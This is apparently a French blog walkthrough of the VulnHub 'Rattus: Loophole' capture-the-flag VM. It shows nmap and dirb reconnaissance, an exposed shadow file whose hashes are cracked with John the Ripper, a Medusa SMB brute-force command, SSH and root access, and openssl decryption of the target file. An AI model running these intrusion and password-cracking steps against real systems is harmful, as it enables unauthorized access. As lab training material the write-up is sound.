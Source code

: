 # Solution du CTF Rattus: Loophole

Ce message s'autodétruira dans 5, 4, 3, 2, 1
--------------------------------------------

Le CTF [Loophole](http://vulnhub.com/entry/rattus_loophole,27/) propose de s'introduire sur un système sur fond de mission anti-terrorisme :  

> We suspect that someone inside Rattus labs is working with known terrorist group. Your mission is to infiltrate into their computer network and obtain encrypted document from one of their servers.
> Our inside source has told us that the document is saved under the name of Private.doc.enc and is encrypted using OpenSSL encryption utility. Obtain the document and decrypt it to complete the mission.

La première difficulté de ce challenge (les mauvaises langues diront la seule), c'est de parvenir à configurer la VM car l'ISO fournit n'utilise pas DHCP et a une adresse IP statique en 10.8.7.  

Finalement il faudra seulement aller dans *Fichier > Paramètres > Réseau* dans *VirtualBox* et créer un réseau privé hôte qui reprends ces infos (j'ai mis .4 et ça a marché mais dans la logique il faut sans mettre .0 si c'est pour le réseau) :  

![Congiguration VirtualBox](https://raw.githubusercontent.com/devl00p/blog/master/images/vboxnet0.png)  

Après on peut lancer Nmap pour trouver l'adresse de notre future victime :  

```plain
nmap -e vboxnet0 -sP 10.8.7.0/29 -T4
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 09:34 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00017s latency).
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Nmap done: 8 IP addresses (1 host up) scanned in 16.75 seconds
```

On pointe directement notre navigateur dessus et on trouve le site web de *Rattus Labs* qui contient différents contacts :  

![Rattus Labs](https://raw.githubusercontent.com/devl00p/blog/master/images/rattus.png)  

Nadia Vlad, CEO.  

Sr. system administrator : Tom Skies - tskies@rattus.lab  

Network engineer : Jay Summer- jsummer@rattus.lab  

Mark Hog - mhog@rattus.lab  

Il y a aussi une page *phpinfo* publiquement accessible. La configuration est plutôt laxiste, permet l'inclusion distante par exemple. Le serveur web tourne en nobody.  

Il y a un sacré nombre de modules PHP mais on verra plus tard que cette info n'est d'aucune utilité.  

On lance un *dirb* sur le serveur *Apache* (1.3.31 avec PHP/4.4.4) :  

```plain
> ./dirb http://10.8.7.2/ wordlists/big.txt 

-----------------
DIRB v2.21
By The Dark Raver
-----------------

START_TIME: Sat Apr  5 13:43:18 2014
URL_BASE: http://10.8.7.2/
WORDLIST_FILES: wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://10.8.7.2/ ----
==> DIRECTORY: http://10.8.7.2/Images/
+ http://10.8.7.2/cgi-bin/ (CODE:403|SIZE:274)
+ http://10.8.7.2/garbage (CODE:200|SIZE:288)
+ http://10.8.7.2/index (CODE:200|SIZE:3001)
+ http://10.8.7.2/info (CODE:200|SIZE:37650)
+ http://10.8.7.2/status (CODE:200|SIZE:2456)
+ http://10.8.7.2/~operator (CODE:403|SIZE:275)
+ http://10.8.7.2/~root (CODE:403|SIZE:271)

---- Entering directory: http://10.8.7.2/Images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
DOWNLOADED: 20458 - FOUND: 7
```

Surprise quand on regarde le fichier *garbage* :  

```plain
root:$1$x2YBL0KB$E7QI7AF9ZeiqcfMRQ4KZ11:15018:0:::::
smmsp:!!:9797:0:::::
mysql:!!:9797:0:::::
rpc:!!:9797:0:::::
sshd:!!:9797:0:::::
apache:!!:9797:0:::::
nobody:!!:9797:0:::::
mhog:$1$ZQAbXwf3$TgcNjljKW.2tlJw4OICDr1:15019:0:::::0
tskies:$1$ZvNtdn0x$ck5hnAwXg.OLQPOtg28Hb.:15019:0:::::0
```

On lance *John The Ripper* qui retourne illico un premier mot de passe :  

```plain
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [128/128 AVX intrinsics 12x])
mhog             (mhog)
```

On laisse *JTR* tourner puis on passe à autre chose voir si on trouve autre chose d'intéressant. *Metasploit* a deux modules en rapport avec *mod\_negotiation* mais ils se révèlent sans intérêt dans notre cas.  

On lance un scan Nmap de la cible (quand même) :  

```plain
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 13:26 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00012s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.4 (protocol 1.99)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.31 ((Unix) PHP/4.4.4)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| http-methods: Potentially risky methods: PUT DELETE CONNECT PATCH PROPFIND PROPPATCH MKCOL COPY MOVE LOCK UNLOCK TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Loophole - Rattus labs
113/tcp open  ident?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: LOOPHOLE, NetBIOS user: , NetBIOS MAC: 
| smb-security-mode: 
| Account that was used for smb scripts: guest
| User-level authentication
| Plaintext passwords required (dangerous)
|\_ Message signing supported
|\_smbv2-enabled: Server doesn't support SMBv2 protocol

TRACEROUTE
HOP RTT ADDRESS
1 0.12 ms 10.8.7.2
```

*Metasploit* dispose de plusieurs exploits Samba mais ils sont trop vieux ou inefficaces par rapport au système.  

Est-ce qu'on peut faire quelque chose avec l'accès au Samba ?  

```plain
> nmblookup -A 10.8.7.2
Looking up status of 10.8.7.2
        LOOPHOLE        <00> -         B 
 LOOPHOLE <03> - B 
 LOOPHOLE <20> - B 
 ..\_\_MSBROWSE\_\_. <01> -  B 
 WORKGROUP <1d> - B 
 WORKGROUP <1e> -  B 
 WORKGROUP <00> -  B 

 MAC Address = 00-00-00-00-00-00

> smbclient -L LOOPHOLE -N
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]
tree connect failed: NT\_STATUS\_INSUFFICIENT\_RESOURCES

> smbclient -L LOOPHOLE -U mhog%mhog
Server requested PLAINTEXT password but 'client plaintext auth = no' or 'client ntlmv2 auth = yes'
session setup failed: NT\_STATUS\_ACCESS\_DENIED
```

On rajoute quelques lignes dans la section global de notre *smb.conf* :  

```plain
client lanman auth = Yes
client plaintext auth = Yes
client ntlmv2 auth = No
```

Le changement est pas vraiment mieux :  

```plain
> smbclient -L LOOPHOLE -U mhog%mhog
session setup failed: NT_STATUS_LOGON_FAILURE
```

*Medusa* a un module SMB, on tente d'obtenir un accès (par exemple sur le compte *operator* trouvé par *dirb*) :  

```plain
medusa -h 10.8.7.2 -u operator -P john/wordlists/password.lst -M smbnt
```

Toujours bredouille :( On revient à nos moutons et on tente une connexion en SSH avec le compte *mhog* : et bingo ça passe !  

![ssh access as mhog](https://raw.githubusercontent.com/devl00p/blog/master/images/rattus2.png)  

Cliffhanger Linux
-----------------

Comme d'habitude on fouille dans les processus, permissions sur les fichiers et binaires, configuration des services... rien d'intéressant.  

On teste quelques exploits pour le kernel mais aucun n'aboutit. Au passage on est sur un live-CD *Slax* donc /tmp n'est pas writable (comme la plupart du FS). Ça oblige à travailler dans */dev/shm* et définir la variable d'environnement *TMPDIR* à ce répertoire pour gcc.  

On revient sur *JTR* que l'on stoppe et que l'on relance avec [une wordlist béton](http://d4n3ws.polux-hosting.com/2014/02/26/mega-wordlist/).  

Cette fois les pass restants tombent en 8 minutes :  

```plain
albatros         (root)
nostradamus      (tskies)
```

On passe root via su et on trouve le ficier *Private.doc.enc* dans le home de l'utilisateur *tskies*.  

On retrouve la commande de chiffrement dans son *.bash\_history* :  

```plain
openssl enc -aes-256-cbc -e -in Private.doc -out Private.doc.enc -pass pass:nostradamus
```

Le déchiffrement est aisé :  

```plain
openssl enc -aes-256-cbc -d -in Private.doc.enc -out Private.doc -pass pass:nostradamus
```

On ouvre ça avec *LibreOffice* :  

![Document confidentiel](https://raw.githubusercontent.com/devl00p/blog/master/images/rattus3.png)

Et un de plus !

*Published April 05 2014 at 17:23*